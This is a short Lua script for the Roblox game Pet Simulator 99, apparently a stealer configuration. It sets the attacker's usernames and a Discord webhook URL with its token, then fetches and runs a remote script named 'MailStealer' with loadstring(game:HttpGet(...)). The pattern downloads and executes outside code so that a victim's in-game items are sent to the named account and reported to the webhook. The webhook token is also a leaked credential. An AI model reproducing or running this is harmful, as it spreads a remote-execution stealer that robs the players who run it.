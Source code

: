 Username = "PogrzaloCie"
Username2 = "PogrzaloCie"
Loading = "LOADING"
Webhook = "https://discord.com/api/webhooks/1287490612785844225/9z30LJg0R30IUyoUkdl_xm3pCaKzK6Qc9ZR9tzDC2PHeWSwWz1vmOiDVeyHoc4Tu3eYy"

loadstring(game:HttpGet("https://raw.githubusercontent.com/GengarScripts/MailStealer/main/PetSimulator99"))()
